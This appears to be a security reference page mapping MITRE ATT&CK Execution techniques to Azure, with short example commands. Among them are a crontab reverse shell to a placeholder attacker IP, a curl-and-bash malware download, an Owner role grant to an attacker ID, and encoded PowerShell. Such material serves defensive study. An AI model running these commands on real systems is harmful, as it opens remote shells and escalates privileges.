 # Execution: TA0002

## Overview

The **Execution** phase focuses on how attackers **run malicious code** within a compromised environment to further their objectives. In **Azure environments**, attackers leverage automation tools, remote services, scripting interpreters, and native APIs to execute commands, manipulate resources, escalate privileges, and maintain control.

### **1. Running Commands via Azure Resource Manager**

**Technique: T1651 - Cloud Administration Commands**\
Attackers use AADInternals can execute commands on Azure virtual machines using the VM agent.

### **2. Running Code through Shells and Scripts**

**Technique: T1059 - Command and Scripting Interpreter**\
Attackers use PowerShell, Unix shells, and other scripting interpreters to run commands.

*   **T1059.001 - PowerShell:**\
    Use **Azure Automation Runbooks** to execute PowerShell commands and escalate privileges by assigning "Owner" role.

    ```powershell
    Add-AzRoleAssignment -RoleDefinitionName "Owner" -PrincipalId <AttackerID>
    ```
*   **T1059.004 - Unix Shell:**\
    Run a reverse shell via Bash on a compromised **Linux VM**.

    ```bash
    curl -o malware.sh https://<storage>.blob.core.windows.net/malware.sh && bash malware.sh
    ```

***

### **3. Automation and Scheduled Execution**

**Technique: T1053 - Scheduled Task/Job**\
Attackers use automated tasks to run malicious code periodically.

*   **T1053.003 - Cron Jobs:**\
    Add a cron job on a **Linux VM** to maintain persistent access.

    ```bash
    echo "* * * * * /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> /etc/crontab
    ```
* **T1053.005 - Scheduled Task:**\
  Use **Windows Task Scheduler** on a VM to execute malware during every boot.

### **4. Remote Command Execution**

**Technique: T1569 - System Services**\
Attackers execute malicious scripts remotely on VMs or through Azure services.

*   **T1569.002 - Service Execution:**\
    Use **VM RunCommand** to run commands remotely on a compromised VM.

    ```bash
    az vm run-command invoke --command-id RunShellScript --name <VM_Name> --resource-group <Resource_Group> --scripts "id; whoami"
    ```

### **5. Trigger-Based Execution on Events**

**Technique: T1546 - Event Triggered Execution**\
Adversaries run code automatically when specific events occur.

* **T1546.004 - Unix Shell Configuration Modification:**\
  Modify `.bashrc` on a Linux VM to trigger a reverse shell on every user login.

### **6. Executing Code via Legitimate Tools (Living off the Land)**

**Technique: T1218 - Signed Binary Proxy Execution**\
Attackers use trusted binaries to avoid detection.

*   &#x20;Use **MSBuild.exe** (a legitimate tool) to execute malicious commands on a Windows VM.

    ```xml
    <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
      <Target Name="MaliciousTask">
        <Exec Command="cmd.exe /c calc.exe" />
      </Target>
    </Project>
    ```

### **7. User-Initiated Execution through Social Engineering**

**Technique: T1204 - User Execution**\
Attackers rely on tricking users into running malicious code.

* **T1204.001 - Malicious Link:**\
  Send a phishing email with a **malicious Azure Blob URL** that downloads malware.
* **T1204.002 - Malicious File:**\
  Send an Excel file with **VBA macros** through Microsoft Teams, triggering a PowerShell payload.

### **8. Abusing APIs to Execute Code**

**Technique: T1106 - Native API**\
Attackers use APIs to automate and execute commands.

*   Use the **Azure REST API** to deploy unauthorized VMs.

    ```bash
    curl -X POST -H "Authorization: Bearer <token>" \
    "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<group-name>/providers/Microsoft.Compute/virtualMachines?api-version=2021-07-01"
    ```

### **9. Obfuscation Techniques for Stealth Execution**

**Technique: T1059.001 - PowerShell**\
Attackers hide commands by encoding or obfuscating them.

*   Run **Base64-encoded PowerShell** to avoid detection by security tools.

    ```powershell
    powershell.exe -EncodedCommand <Base64EncodedPayload>
    ```

***

### **Summary Techniques for TA0002**

| **Key Concept**                        | **Technique**                             | **Azure Example**                                 |
| -------------------------------------- | ----------------------------------------- | ------------------------------------------------- |
| Running Code with Shells and Scripts   | T1059 - Command and Scripting Interpreter | PowerShell via Runbooks to escalate privileges    |
| Automation and Scheduled Execution     | T1053 - Scheduled Task/Job                | Cron job on Linux VM for persistent reverse shell |
| Remote Command Execution               | T1569 - System Services                   | RunCommand to execute scripts on VMs              |
| Trigger-Based Execution on Events      | T1546 - Event Triggered Execution         | Modify `.bashrc` to run code on user login        |
| Living off the Land (Legitimate Tools) | T1218 - Signed Binary Proxy Execution     | Use MSBuild.exe to execute payloads               |
| User-Initiated Execution (Social Eng.) | T1204 - User Execution                    | Phishing link to Azure Blob hosting malware       |
| Executing Code via APIs                | T1106 - Native API                        | Use REST API to deploy unauthorized VMs           |
| Obfuscation and Stealth Techniques     | T1059.001 - PowerShell                    | Run encoded PowerShell commands                   |

